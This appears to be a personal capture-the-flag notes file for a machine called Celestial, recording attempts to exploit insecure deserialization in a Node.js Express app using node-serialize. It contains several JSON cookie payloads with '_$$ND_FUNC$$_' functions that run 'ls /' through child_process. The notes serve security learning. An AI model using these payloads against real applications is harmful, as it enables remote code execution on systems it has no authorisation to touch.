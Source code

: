 # Celestial Notes

## Data 

IP: 
OS:
Hostname:
Machine Purpose: 
Services: Node JS Express
Service Languages: Js
Users:
Credentials:

## Objectives

## Target Map

![](Celestial-map.excalidraw.md)

## Solution Inventory Map


### Todo 

Make Excalidraw

### Done
      


Masscan did not work :/

cookiedummy.png

percent3disequals.png

```json
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}

{"username":"FIELD1","country":"FIELD2","city":"FIELD#","num":"FIELD4-NUM"}
// Next break the cookie for enumeration
{"username":","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"4"} - "
```


expressintheburp.png

archive0.png
and
archive1.png

[Hacktricks Deserialization article](https://book.hacktricks.xyz/pentesting-web/deserialization#nodejs)'s section on DEserialization attacks

Test to see what is evaluated base on what reflected back to us first - make Node do maths
decodechangeandencodepoc.png

Confirming concatenation of two strings
pocandconfrmingevaluationoftype.png

Next always break for error codes:
```json
{"username":","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"4"} 
```
 Original for comparison
```json
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

![](nodealwayhasverboserrors.png)

We get a username, location that the web is running the npm module from and some directory information. With indication that is serializing with the serialization.js library. [Hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization#nodejs)
```json
"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"

{"username":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}

// Third Attempt
{"username":"Dummy","country":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}","city":"Lametown","num":"2"}

// Second Attmept
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}","num":"2"}

// First Attempt:
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"}
```

First attempt
firstattempt.png

Second attempt
secondattempt.png

[304 - Not Modifed](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/304) *"client redirection response code indicates that there is no need to retransmit the requested resources. It is an implicit redirection to a cached resource. This happens when the request method is a [safe](https://developer.mozilla.org/en-US/docs/Glossary/Safe/HTTP) method, such as [`GET`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET) or [`HEAD`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD), or when the request is conditional and uses an [`If-None-Match`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/If-None-Match) or an [`If-Modified-Since`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/If-Modified-Since) header."*

Third attempt
thirdattempt.png

Forth attempt - Different Error though, but the same as if we broke json
forthattempt.png

```
{"username":_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })},"country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}

```

Copying and pasting the source code from [here](https://www.npmjs.com/package/node-serialize?activeTab=code)
funcflag.png


funcflagusage.png


line49.png

lines7475.png


https://attack.mitre.org/techniques/T1059/007/  [Chaes](https://attack.mitre.org/software/S0631) is a multistage information stealer written in several programming languages that collects login credentials, credit card numbers, and other financial information. Ialso uses NodeJS Puppeer npm package.
